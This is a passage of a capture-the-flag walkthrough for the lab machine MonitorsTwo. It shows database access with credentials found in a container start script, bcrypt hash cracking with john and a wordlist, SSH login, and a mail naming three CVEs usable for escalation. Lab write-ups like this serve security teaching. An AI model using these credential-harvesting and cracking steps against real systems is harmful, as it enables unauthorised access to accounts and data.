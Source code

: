 Here we can see the commands that are executed when the docker container starts.

Among the commands we can see mysql credentials.

Let's connect to the database with the following command:

```bash
mysql --host=db --user=root --password=root cacti
```

![](5.png)

We got `marcus`'s hash, let's crack it with `john`.

```bash
└──╼ $ john -w=/usr/share/wordlists/rockyou.txt marcus.hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)
1g 0:00:02:53 DONE (2023-08-23 15:35) 0.005771g/s 49.24p/s 49.24c/s 49.24C/s 474747..coucou
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We got the password, let's ssh to the target.

Checking marcus's mail at `/var/mail`, we find the following:

```shell
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
```